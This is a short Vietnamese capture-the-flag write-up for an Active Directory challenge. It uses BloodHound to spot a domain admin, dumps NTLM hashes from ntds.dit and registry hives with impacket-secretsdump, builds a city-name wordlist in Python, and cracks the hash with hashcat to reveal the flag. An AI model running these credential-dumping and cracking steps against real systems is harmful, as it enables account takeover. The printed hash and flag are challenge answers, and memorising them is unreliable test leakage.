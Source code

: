 # Tìm hiểu(Sử dụng bloodhound): biết domain admin là jessica
Tham khảo: https://github.com/SpecterOps/BloodHound

Sử dụng BloodHound để soi `explore/cypher/All Domain Admins`, ta thấy được người dùng jessica cũng là 1 domain admin

![image](https://github.com/user-attachments/assets/d8d2a4c3-3ef2-45c5-b28e-189f56640942)

![image](https://github.com/user-attachments/assets/5be1077f-a399-4c97-bc65-32424ce120f8)

Trong thư mục của jake có `ntds.dit`, `sam.hive`, `system.hive` đủ 3 điều kiện để sử dụng `impacket-secretdump -ntds ntds.dit -sam sam.hive -system system.hive LOCAL` để lấy ntlm hash của jessica
```
8fcdcffba18f392df7aa291527290aff
```
Format mật khẩu là `wctf{bl00dh0und_is_c00l_cityxxx}` xxx là 3 số ngẫu nhiên

Có thể lấy danh sách các thành phố ở https://github.com/FinNLP/cities-list/blob/master/list.txt

Sau đó dùng `pwFormat.py` tạo wordlist custom 

```py
with open("cities.txt", "r") as file:
    cities = file.readlines()

formatted_cities = []
for city in cities:
    city = "wctf{bl00dh0und_is_c00l_" + city.strip().lower()
    formatted_cities.append(city)

with open("cities_wordlist.txt", "w") as file:
    for formatted_city in formatted_cities:
        file.write(formatted_city + "\n")

print("Written into cities_wordlist.txt")
```

wctf{bl00dh0und_is_c00l_city + 3 số ngẫu nhiên và "}" sẽ được thêm vào khi sử dụng hashcat

`hashcat -a 6 -m 1000 jessicahash cities_wordlist.txt "?d?d?d}"`

Mật khẩu và cũng chính là flag

`wctf{bl00dh0und_is_c00l_votuporanga985}`
